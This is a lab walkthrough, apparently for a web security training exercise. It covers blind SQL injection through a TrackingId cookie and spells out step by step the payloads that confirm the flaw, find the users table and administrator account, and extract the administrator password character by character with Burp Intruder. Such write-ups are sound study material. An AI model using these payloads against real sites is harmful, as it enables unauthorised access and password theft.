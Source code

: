 **Modify the CheckingID cookie to confirm the vulnerability**

```
TrackingId=xyz' AND '1'='1
```

and 

```
TrackingId=xyz' AND '1'='2
```

to see if there is a different response

**Confirming that there is a table called *users***

```
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```

**Confirming that there is a user called administrator**

```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

**Determine how many characters are in the administrator password**

```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

**After determining the length of the password, he next step is to test the character at each position to determine its value**

This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu. 

In Burp Intruder, change the value of the cookie to:
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

This uses the SUBSTRING() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn. 

 Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the Add § button. You should then see the following as the cookie value (note the payload position markers): 

 ```
 TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```

To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. In the Payloads side panel, check that Simple list is selected, and under Payload configuration add the payloads in the range a - z and 0 - 9. You can select these easily using the Add from list drop-down (only in Pro version sadly...). 

Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the Intruder tab, and change the specified offset from 1 to 2. You should then see the following as the cookie value: 

```
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

Launch the modified attack, review the results, and note the character at the second offset.
Continue this process testing offset 3, 4, and so on, until you have the whole password. 
